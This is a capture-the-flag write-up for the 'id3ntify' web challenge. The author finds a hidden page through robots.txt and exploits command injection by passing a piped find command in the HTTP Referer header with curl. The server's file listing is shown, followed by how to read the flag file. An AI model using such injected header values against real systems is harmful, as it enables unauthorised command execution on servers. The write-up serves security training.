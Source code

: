# Best Cyber Warrior 2022 - US » id3ntify

## Prompt
Unrecorded

## Analysis
At the start of the challenge, we're given a link to the page http://wcomekgvd7rs9zrq5l3n9dwfq36ondvjy64ybevy-web.cybertalentslabs.com/.  When you nagivate to this page, there's nothing too special about it.  I always check for a robots.txt file, and when I went there, I found some pretty free chicken: a Disallow for /s3cr3t4019.php.

## Solution
The page /s3cr3t4019.php is a website that tells you what site you're coming from, or in this case, the page displays the referer as a `ping` command.  Not the most difficult problem, it's a straight shot to the flag from here.  I tested my vectors through the use of `curl`.  First, I verified that escaping the ping command worked, then I applied the bash pipe to the solution:
```
┌──(kali㉿kali)-[~/Documents/ctf/cyberbestwarrior2022/id3ntify]
└─$ curl http://wcomekgvd7rs9zrq5l3n9dwfq36ondvjy64ybevy-web.cybertalentslabs.com/s3cr3t4019.php --referer "8.8.8.8 | find /var/www/html/ -name '*flag*'"

<!DOCTYPE html>
<html>
<head>
        <title>Sup3r S3cret page!</title>
<style>
.p3 {
  font-family: "Lucida Console", "Courier New", monospace;
}
div {
  background-color: lightgrey;
  width: 500px;
  padding: 50px;
  margin: 20px;
}
</style>


</head>
<body >
        <center><h1 class="p3" style="color:red" >Welcome To our Secret Website!</h1></center>
        <hr>
        <img src="./img/gohn.png" alt="gohn is gone" width=300 height=700 align="right">
        <h2 class="p3"> We appreciate your interest in our website</h2>
        <h2 class="p3"> We log every website linking to us , Feel free to try that now !</h2>

<div>
        <h2 class="p3">You are coming from : <span style="color:red">8.8.8.8 | find /var/www/html/ -name '**'</span></h2>
        <h2 class="p3">information  :</h2>

        /var/www/html/
/var/www/html/index.html
/var/www/html/img
/var/www/html/img/Hisok.gif
/var/www/html/img/gohn.png
/var/www/html/robots.txt
/var/www/html/s3cr3t4019.php
/var/www/html/secret_8567430286
/var/www/html/secret_8567430286/flag.txt
</div>
</body>
</html>
```
Use the pipe to `cat` the file /var/www/html/secret_8567430286/flag.txt and you've got the solution.
